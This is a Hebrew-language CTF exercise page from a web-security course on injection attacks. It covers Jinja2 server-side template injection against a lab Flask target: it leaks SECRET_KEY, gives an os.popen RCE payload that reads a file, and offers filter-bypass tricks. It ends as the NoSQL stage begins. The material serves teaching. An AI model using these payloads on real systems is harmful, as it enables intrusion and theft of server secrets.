

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/3 - הזרקות מתקדמות/3.8 - אתגר CTF - הזרקות/3.8 - אתגר CTF - הזרקות - תרגיל/index.html · generator: mkdocs

# אתגר CTF - injections

## מבוא

אתגר CTF רב-שלבי שמשלב את כל טכניקות הinjection שלמדנו בפרק הזה. כל שלב דורש זיהוי וexploit של סוג injection שונה. השלמת כל שלב נותנת רמז או גישה לשלב הבא.

## שלב 1 - הזרקת תבניות - SSTI

### תיאור

מצאתם אפליקציית Flask שמציגה הודעת שגיאה מותאמת אישית. כתובת ה-URL:

```
http://target:5000/error?message=Page+not+found
```

### משימות

1. בדקו אם הפרמטר `message` פגיע ל-SSTI:

```
http://target:5000/error?message={{7*7}}
```

2. זהו את מנוע התבניות (Jinja2/Twig/אחר)
3. חלצו את ה-SECRET_KEY של Flask:

```
{{config.SECRET_KEY}}
```

4. השיגו RCE ומצאו את הקובץ `/stage1_flag.txt`:

```
{{config.__class__.__init__.__globals__['os'].popen('cat /stage1_flag.txt').read()}}
```

5. הקובץ מכיל את ה-flag של שלב 1 **ואת הכתובת של שלב 2**

### רמזים

- אם `config` חסום, נסו דרך `cycler` או `joiner`
- אם `__class__` חסום, נסו `|attr('\x5f\x5fclass\x5f\x5f')`
- חפשו גם קבצי קונפיגורציה אחרים על השרת שמכילים credentials

## שלב 2 - injection NoSQL

### תיאור

מ-flag של שלב 1 קיבלתם כתובת של API ב-Node.js:

```
http://target:3000/api/login
```
